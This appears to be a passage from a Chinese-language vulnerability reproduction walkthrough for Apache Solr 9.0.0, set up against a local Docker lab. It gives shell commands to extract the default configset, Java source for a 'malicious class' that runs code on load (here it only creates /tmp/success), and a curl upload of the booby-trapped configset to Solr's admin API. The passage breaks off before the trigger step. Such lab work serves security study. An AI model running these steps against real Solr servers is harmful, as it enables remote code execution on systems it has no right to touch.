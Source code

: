 ## 漏洞复现

### 准备 Solr 默认配置文件

先以 root 权限进入 Solr 容器，打包默认的配置文件并复制出来，当然也可以从 Solr 源码中获得：

```bash
docker exec -ti -uroot solr9.0.0 bash
cd /opt/solr-9.0.0/server/solr/configsets/_default
tar cf conf.tar conf/
exit
docker cp solr9.0.0:/opt/solr-9.0.0/server/solr/configsets/_default/conf.tar ~/Desktop/test/
tar xf conf.tar
```

[![](assets/1708941329-4a9c9a60e516d08591de261a87ade643.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210224834-770cf1cc-c823-1.png)

### 编译恶意 class

编译一个包名为`zk_backup_0.configs.conf1`的 Java 类（容器内的 Java 版本为 17，注意版本兼容问题）

```bash
package zk_backup_0.configs.conf1;
import java.io.File;
public class Exp {
    static {
        try {
            new File("/tmp/success").createNewFile();
        }catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

### 上传配置文件`conf1`

将恶意 class 放入配置文件目录中，并打包上传到 Solr，命名为`conf1`

```bash
mv zk_backup_0/configs/conf1/Exp.class conf/
cd conf
zip -q -r conf1.zip *
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf1.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=conf1"
```
